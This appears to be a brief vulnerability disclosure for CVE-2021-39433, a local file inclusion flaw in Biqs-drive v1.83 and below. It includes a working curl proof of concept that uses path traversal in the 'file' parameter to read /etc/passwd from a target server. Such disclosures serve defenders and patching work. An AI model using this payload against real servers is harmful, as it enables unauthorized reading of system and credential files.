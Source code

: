 # CVE-2021-39433

A local file inclusion (LFI) vulnerability exists in version BIQS IT Biqs-drive v1.83 and below when sending a specific payload as the file parameter to download/index.php. This allows the attacker to read arbitrary files from the server with the permissions of the configured web-user.

`curl https://TARGET/download/index.php?file=../../../../../../../../../etc/passwd`
